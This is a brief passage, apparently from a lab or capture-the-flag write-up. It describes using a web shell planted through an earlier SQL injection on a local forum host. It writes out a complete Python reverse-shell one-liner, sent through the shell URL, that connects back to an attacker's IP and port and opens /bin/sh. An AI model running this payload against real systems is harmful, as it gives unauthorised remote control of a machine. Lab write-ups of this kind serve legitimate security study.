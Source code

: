 
from the ste pafter the sql injection in writeup1, we can now inject code in the address bar like this :

```
https://192.168.1.48/forum/templates_c/EXPLOIT.php?cmd=test
```

so with we created a reverse shell that we can access with nc:
```
[https://192.168.1.48/forum/templates_c/EXPLOIT.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'](https://192.168.1.48/forum/templates_c/cmd.php?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22192.168.1.27%22,4242));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%273)
```
